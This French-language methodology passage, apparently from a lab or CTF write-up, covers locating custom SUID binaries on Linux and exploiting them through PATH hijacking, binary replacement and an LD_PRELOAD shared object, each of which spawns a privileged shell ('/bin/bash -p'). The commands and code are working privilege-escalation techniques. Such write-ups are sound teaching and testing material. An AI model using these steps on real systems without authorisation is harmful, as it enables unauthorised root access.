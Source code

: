 #### Méthodologie générale pour programmes SUID vulnérables

**Phase 1 : Identification**
```bash
# Recherche de binaires SUID personnalisés
find / -perm -4000 -type f 2>/dev/null | grep -v "/bin\|/usr/bin\|/sbin\|/usr/sbin"

# Analyse des permissions
ls -la <binary_suid>
```

**Phase 2 : Analyse du binaire**
```bash
# Analyse des chaînes de caractères
strings <binary_suid>

# Analyse des appels système (si disponible)
strace <binary_suid> 2>&1 | grep execve

# Analyse des bibliothèques
ldd <binary_suid>

# Désassemblage basique (si objdump disponible)
objdump -d <binary_suid>
```

**Phase 3 : Techniques d'exploitation**

**3.1 - Path Hijacking**
```bash
# Si le binaire appelle une commande sans chemin absolu
echo '#!/bin/bash' > /tmp/vulnerable_command
echo '/bin/bash -p' >> /tmp/vulnerable_command
chmod +x /tmp/vulnerable_command
export PATH=/tmp:$PATH
./<binary_suid>
```

**3.2 - Binary Replacement (comme dans le lab)**
```bash
# Identifier le binaire appelé
strings <binary_suid> | grep -E "^[a-zA-Z0-9_]+$"

# Remplacer le binaire dans le répertoire courant
mv <binary_appelé> <binary_appelé>.bak
cp /bin/bash <binary_appelé>
./<binary_suid>
```

**3.3 - Environment Variable Exploitation**
```bash
# Exploitation via LD_PRELOAD (si autorisé)
echo 'void _init() { system("/bin/bash -p"); }' > /tmp/exploit.c
gcc -shared -fPIC -nostartfiles /tmp/exploit.c -o /tmp/exploit.so
LD_PRELOAD=/tmp/exploit.so ./<binary_suid>
```
